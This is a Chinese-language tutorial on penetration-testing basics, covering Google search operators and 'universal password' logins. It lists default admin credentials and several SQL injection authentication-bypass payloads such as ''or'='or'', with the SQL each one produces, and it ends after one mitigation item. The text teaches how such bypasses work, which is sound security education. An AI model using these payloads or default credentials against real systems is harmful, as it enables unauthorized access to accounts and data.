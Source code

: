 # 滲透基礎之數據庫原理

 Google搜索

首先，強烈推薦使用Google搜索

Google搜索提供強大的功能，給你精準的結果

 intitle:xia-tian-liang

搜索網頁標題包含xia-tian-liang字符的網頁。

 inurl:cbi

搜索包含特定字符cbi的URL。

 intext:cbi

搜索網頁正文內容包含特定字符cbi的網頁。

 filetype:ppt

搜索制定類型的文件，返回所有以ppt結尾的文件URL。

 site

找到與指定網站有聯繫的URL。

萬能密碼原理

萬能密碼通常是指開發人員在開發過程中使用超級管理員進行開發，開發完成後沒有過濾掉這些常用的超級管理員；另一種是存在SQL漏洞管理員賬號。

1.萬能密碼：用戶名 admin、密碼admin，用戶名admin、密碼123456

2.萬能密碼：用戶名 'or'='or'、密碼 'or'='or'

   原理解釋：假設用戶登錄對應的語句爲：

   select name, pwd from login where name='' and pwd='';

   如果用戶名輸入正確則直接登錄，否則提示用戶名或密碼錯誤，使用萬能密碼後的SQL語句如下：

   select name, pwd from login where name=''or'='or'' and pwd=''or'='or'';

   核心代碼，兩個單引號匹配，即name=''，然後or連接，單引號等於單引號\('='\)這是恆成立的，緊接着or連接兩個單引號\(''\)，同理密碼pwd。這樣or連接的\('='\)是恆成立的，故返回結果爲真，導致直接登錄。

3.萬能密碼：用戶名 'or''='、密碼'or''='

   原理解釋：此時對應的SQL語句如下：

   select name, pwd from login where name=''or''='' and pwd=''or''='';

4.萬能密碼：用戶名'or'='--、密碼'or'='--

   原理解釋：此時對應的SQL語句如下：

   select name, pwd from login where name=''or'='--' and pwd=''or'='--';

防範措施：

1.開發人員開發完成後，過濾掉admin等常用賬號或修改密碼；
